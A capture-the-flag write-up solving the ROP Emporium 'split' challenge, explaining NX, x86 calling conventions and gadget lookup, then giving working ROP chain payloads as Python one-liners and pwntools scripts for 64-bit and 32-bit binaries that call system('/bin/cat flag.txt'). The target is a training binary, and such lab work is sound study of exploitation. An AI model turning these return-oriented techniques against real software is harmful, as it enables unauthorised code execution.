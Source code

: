 # SPIT

[Split]: https://ropemporium.com/challenge/split.html

- `NX bit` (*no-execute*) is a technology used in [CPUs](https://en.wikipedia.org/wiki/CPU) to segregate areas of memory for use by either storage of processor instructions (*code*) or for storage of data; so we can suppose that we cannot force the program to execute our instruction, but we must use pieces of code already written inside the binary.

```bash
rabin2 -I split   
...
nx true
...
```

- There is, somewhere in the code, a usefful string, `/bin/cat flag.txt`, and a `system()` call

- the thrash padding is the same as `ret2win` 

We must take into account how parameters are passed to functions in an architecture

**64bit**

> When functions are called, especially between software and libraries /  kernel. There is a standard that is followed known as the [application binary interface](https://en.wikipedia.org/wiki/Application_binary_interface) (ABI).  One part of the ABI is known as the Calling Convention. This  convention defines how parameters are passed in to functions. There are  many calling conventions that differ based on OS, CPU Architecture and  sometimes the compiler. Since we know we are using a 64 bit binary on a  Linux OS we know that we are using the [System V AMD64 ABI](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI). The convention states that parameters passed in to functions will be passed in on CPU registers in the following order

| rax     | rdi  | rsi  | rdx  | r10  | r8   | r9   |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |

**32bit**

> This time we are using a 32 bit binary so we need to set up our exploit in a way that will make sense to the [CDECL calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl).

| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| eax     | ebx  | ecx  | edx  | esi  | edi  | ebp  |

## 64 bit

We need to build our **ROP chain**, lets find all stuff we need:

![split1](./assets/split1.png)

Our **useful string** is at `0x601060` and we have found a `usefulFunction()` at `0x400742`, we can check if `system()` is called in there

![split2](./assets/split2.png)


And we got `system()` address: `0x00400560`

Last but not least our `gadget`, we have to get the value into the `RDI`, with limitation of only controlling the stack, we can use `ropper`

![split3](./assets/split3.png)

gotcha, it's `0x004007c3`.

Now we can build our Rop chain, remembering the `Little Endian` notation:

| thrash padding | gadet `pop rdi; ret`               | useful string                      | system                             |
| -------------- | ---------------------------------- | ---------------------------------- | ---------------------------------- |
| "\x55"*40      | "\xc3\x07\x40\x00\x00\x00\x00\x00" | "\x60\x10\x60\x00\x00\x00\x00\x00" | "\x60\x05\x40\x00\x00\x00\x00\x00" |

```bash
python -c 'print "\x55"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x60\x05\x40\x00\x00\x00\x00\x00"' | ./split 
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("split")
io = process(elf.path)

payload = b'A'*40
payload += p64(0x004007c3)
payload += p64(0x601060)
payload += p64(0x00400560)

io.sendline(payload)
print(io.recvall())
```

## 32 bit

Same story as before

**Usefull String** address is `0x0804a030`

![split4](./assets/split4.png)

**System()** address is `0x080483e0`

![split5](./assets/split5.png)

Here we do not need any `gadget`, 32 bit stonks.

Now we can build our Rop chain, remembering the `Little Endian` notation:

| thrash padding | system             | 4 thrash bits | useful string      |
| -------------- | ------------------ | ------------- | ------------------ |
| "\x55"*44      | "\xe0\x83\x04\x08" | "\x55"*4      | "\x30\xa0\x04\x08" |

we also need 4 extra bytes of thash because the first value (32 bit = 4 bytes) of the stack will be popped out in the `$epb` register in the entry section of the `system` function (it happens in all functions)

```bash
python -c 'print "\x55"*44 + "\xe0\x83\x04\x08" + "\x55"*4 + "\x30\xa0\x04\x08"' | ./split 
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("split32")
io = process(elf.path)

payload = b'A'*44
payload += p32(0x080483e0)
payload += b'A'*4
payload += p32(0x0804a030)

io.sendline(payload)
print(io.recvall())
```

